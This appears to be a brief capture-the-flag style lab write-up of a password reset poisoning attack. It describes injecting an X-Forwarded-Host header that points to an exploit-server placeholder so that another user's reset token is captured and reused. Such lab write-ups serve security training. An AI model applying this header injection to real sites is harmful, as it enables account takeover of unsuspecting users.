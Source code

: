 # Password reset poisoning via middleware

![screenshot](./images/post_request.png)

send to repeter
add
`X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net`

![screenshot](./images/x-forwarded-host.png)

ip is different from rest of other
![screenshot](./images/logfile.png)

![screenshot](./images/token_link.png)

change token and paste into url
